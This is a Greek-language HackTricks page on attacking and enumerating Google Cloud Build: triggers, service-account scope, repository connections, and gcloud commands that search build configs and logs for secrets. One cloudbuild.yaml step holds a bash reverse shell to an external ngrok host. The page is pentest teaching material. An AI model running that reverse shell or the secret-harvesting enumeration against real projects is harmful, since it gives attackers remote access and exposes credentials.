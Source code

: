 # Απαρίθμηση Υπηρεσιών GCP - Cloud Build

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Ερυθρού Συνεργείου HackTricks AWS)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs** στα [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## Βασικές Πληροφορίες

Το Google Cloud Build είναι μια διαχειριζόμενη πλατφόρμα CI/CD που **αυτοματοποιεί τη διαδικασία κατασκευής λογισμικού** και απελευθερώνει διαδικασίες, ενσωματώνοντας **αποθετήρια κώδικα πηγής** και υποστηρίζοντας μια ευρεία γκάμα γλωσσών προγραμματισμού. Επιτρέπει στους προγραμματιστές να κατασκευάζουν, να δοκιμάζουν και να αποθέτουν κώδικα αυτόματα, παρέχοντας ευελιξία για προσαρμογή βημάτων κατασκευής και ροών εργασίας.

Κάθε ένα Σήμα Κατασκευής Σύννεφου σχετίζεται με ένα Αποθετήριο Σύννεφου ή συνδέεται απευθείας με ένα εξωτερικό αποθετήριο (Github, Bitbucket και Gitlab).

{% hint style="success" %}
Δεν μπόρεσα να δω κάποιον τρόπο να κλέψω το διακριτικό Github/Bitbucket από εδώ ή από τα Αποθετήρια Σύννεφου επειδή όταν το αποθετήριο κατεβάζεται, προσπελαύνεται μέσω ενός URL [https://source.cloud.google.com/](https://source.cloud.google.com/) και το Github δεν προσπελαύνεται από τον πελάτη.
{% endhint %}

### Συμβάντα

Η Κατασκευή Σύννεφου μπορεί να ενεργοποιηθεί αν:

* **Πιέσετε σε μια κλαδί**: Καθορίστε το κλαδί
* **Πιέσετε ένα νέο ετικέτα**: Καθορίστε την ετικέτα
* **Αίτημα Σύρσιματος**: Καθορίστε το κλαδί που λαμβάνει το Αίτημα Σύρσιματος
* **Χειροκίνητη Κλήση**
* **Μήνυμα Pub/Sub**: Καθορίστε το θέμα
* **Συμβάν Webhook**: Θα εκθέσει ένα URL HTTPS και το αίτημα πρέπει να είναι πιστοποιημένο με ένα μυστικό

### Εκτέλεση

Υπάρχουν 3 επιλογές:

* Ένα yaml/json **που καθορίζει τις εντολές** προς εκτέλεση. Συνήθως: `/cloudbuild.yaml`
* Μόνο μία που μπορεί να καθοριστεί "ενσωματωμένη" στην ιστοσελίδα κονσόλας και στο cli
* Πιο συνηθισμένη επιλογή
* Σχετική με την μη πιστοποιημένη πρόσβαση
* Ένα **Dockerfile** για κατασκευή
* Ένα **Buildpack** για κατασκευή

### Δικαιώματα SA

Ο **Λογαριασμός Υπηρεσίας έχει το πεδίο `cloud-platform`**, έτσι μπορεί **να χρησιμοποιήσει όλα τα προνόμια.** Αν **δεν καθοριστεί κάποιος Λογαριασμός Υπηρεσίας** (όπως όταν γίνεται υποβολή), θα χρησιμοποιηθεί ο **προεπιλεγμένος Λογαριασμός Υπηρεσίας** `<αριθμός-έργου>@cloudbuild.gserviceaccount.com`.

Από προεπιλογή δεν δίνονται δικαιώματα, αλλά είναι αρκετά εύκολο να δοθούν κάποια:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Έγκριση

Είναι δυνατόν να διαμορφωθεί μια Κατασκευή Σύννεφου για **απαιτούμενες εγκρίσεις για τις εκτελέσεις κατασκευής** (απενεργοποιημένο από προεπιλογή).

### Συνδέσεις & Αποθετήρια

Οι συνδέσεις μπορούν να δημιουργηθούν μέσω:

* **GitHub:** Θα εμφανίσει ένα παράθυρο OAuth που θα ζητά άδειες για **να λάβει ένα διακριτικό Github** που θα αποθηκευτεί μέσα στο **Διαχειριστή Μυστικών.**
* **GitHub Enterprise:** Θα ζητήσει να εγκαταστήσετε ένα **GithubApp**. Ένα **διακριτικό πιστοποίησης** από τον κεντρικό σας διακομιστή GitHub θα δημιουργηθεί και θα αποθηκευτεί σε αυτό το έργο ως μυστικό **Διαχειριστή Μυστικών.**
* **GitLab / Enterprise:** Πρέπει να **παρέχετε το διακριτικό πρόσβασης API και το διακριτικό πρόσβασης Read API** που θα αποθηκευτεί στο **Διαχειριστή Μυστικών.**

Μόλις δημιουργηθεί μια σύνδεση, μπορείτε να τη χρησιμοποιήσετε για **να συνδέσετε αποθετήρια στα οποία ο λογαριασμός Github έχει πρόσβαση**.

Αυτή η επιλογή είναι διαθέσιμη μέσω του κουμπιού:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Σημειώστε ότι τα αποθετήρια που συνδέονται με αυτόν τον τρόπο είναι **διαθέσιμα μόνο στα Σήματα Χρήσης 2ης γενιάς.**
{% endhint %}

### Σύνδεση Αποθετηρίου

Αυτό δεν είναι το ίδιο με μια **`σύνδεση`**. Αυτό επιτρέπει **διαφορετικούς** τρόπους να **έχετε πρόσβαση σε ένα αποθετήριο Github ή Bitbucket** αλλά **δεν δημιουργεί ένα αντικείμενο σύνδεσης, αλλά δημιουργεί ένα αντικείμενο αποθετηρίου (της 1ης γενιάς).**

Αυτή η επιλογή είναι διαθέσιμη μέσω του κουμπιού:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Αποθήκευση

Μερικές φορές το Cloud Build θα **δημιουργήσει μια νέα αποθήκευση για την αποθήκευση των αρχείων για το σήμα κατασκευής**. Αυτό συμβαίνει για παράδειγμα στο παράδειγμα που προσφέρει το GCP:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Δημιουργήθηκε ένα κουτί αποθήκευσης με το όνομα [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) για να αποθηκεύει ένα αρχείο `.tgz` με τα αρχεία που θα χρησιμοποιηθούν.

### Λήψη κέλυφους
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
Εγκατάσταση του gcloud μέσα στο cloud build:
```bash
# https://stackoverflow.com/questions/28372328/how-to-install-the-google-cloud-sdk-in-a-docker-image
curl https://dl.google.com/dl/cloudsdk/release/google-cloud-sdk.tar.gz > /tmp/google-cloud-sdk.tar.gz
mkdir -p /usr/local/gcloud
tar -C /usr/local/gcloud -xvf /tmp/google-cloud-sdk.tar.gz
/usr/local/gcloud/google-cloud-sdk/install.sh
```
### Απαρίθμηση

Μπορείτε να βρείτε **ευαίσθητες πληροφορίες σε ρυθμίσεις και καταγραφές των builds**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Εscalation προνομίων

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Μη εξουσιοδοτημένη πρόσβαση

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Μετά την εκμετάλλευση

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
